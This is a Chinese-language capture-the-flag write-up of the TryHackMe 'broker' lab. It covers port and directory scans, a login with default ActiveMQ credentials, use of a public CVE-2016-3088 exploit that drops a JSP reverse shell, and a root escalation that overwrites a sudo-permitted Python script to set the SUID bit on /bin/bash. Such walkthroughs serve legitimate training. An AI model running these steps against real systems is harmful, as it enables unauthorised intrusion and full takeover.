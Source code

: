```yaml
---
sidebar_position: 136
tags: [Easy, Linux, SUDO]
title: "broker"
description: "broker"
sidebar_label: "broker"
slug: /tryhackme/136
---
```


# broker

## 端口扫描

```bash
root@ip-10-10-166-251:~/broker# nmap -sTCV -p 22,1883,8161,37483 --min-rate 1000 10.10.28.5

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-04 04:22 BST
Nmap scan report for ip-10-10-28-5.eu-west-1.compute.internal (10.10.28.5)
Host is up (0.00017s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4c:75:a0:7b:43:87:70:4f:70:16:d2:3c:c4:c5:a4:e9 (RSA)
|   256 f4:62:b2:ad:f8:62:a0:91:2f:0a:0e:29:1a:db:70:e4 (ECDSA)
|_  256 92:d2:87:7b:98:12:45:93:52:03:5e:9e:c7:18:71:d5 (EdDSA)
1883/tcp  open  mqtt?
|_mqtt-subscribe: TIMEOUT
8161/tcp  open  http       Jetty 7.6.9.v20130131
|_http-server-header: Jetty(7.6.9.v20130131)
|_http-title: Apache ActiveMQ
37483/tcp open  tcpwrapped
MAC Address: 02:01:CF:A8:E3:7B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 8161

进行目录扫描

```bash
root@ip-10-10-166-251:~/broker# gobuster dir -u http://10.10.28.5:8161/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.28.5:8161/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,txt
[+] Timeout:        10s
===============================================================
2023/10/04 04:26:41 Starting gobuster
===============================================================
/index.html (Status: 200)
/images (Status: 302)
/admin (Status: 401)
/api (Status: 302)
/styles (Status: 302)
```

根据扫描我发现其是一个 Jetty 程序, 当我访问 admin 时其要求我提供密码, 所以我查找了 Jetty 的默认账号

![image-20240709162311706](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162313.png)

使用此发现可以登陆, 在登陆之后观察网页显示内容, 我注意到两个位置:

- ActiveMQ
- Broker : 5.9.0

![image-20240709162320357](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162321.png)

接着我基于此开始查找 EXP 最终发现 ActiveMQ 的可利用程序 [GitHub - cyberaguiar/CVE-2016-3088: Apache ActiveMQ Remote Code Execution Exploit](https://github.com/cyberaguiar/CVE-2016-3088/tree/main)

## 后渗透

### activemq

执行我们上面的 EXP , 最终会上传一个 JSP 的反向 Shell

![image-20240709162337230](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162338.png)

![image-20240709162344216](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162345.png)

### activemq —> root

接着我发现用户 activemq 存在 SUDO 特权

```bash
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ ls -al subscribe.py
-rw-rw-r-- 1 activemq activemq 768 Dec 25  2020 subscribe.py
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ cat << EOF > subscribe.py
> import os
> os.system("chmod u+s /bin/bash")
> EOF
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ sudo  /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
(remote) activemq@activemq:/opt/apache-activemq-5.9.0$ /bin/bash -p
(remote) root@activemq:/opt/apache-activemq-5.9.0# id
uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)
```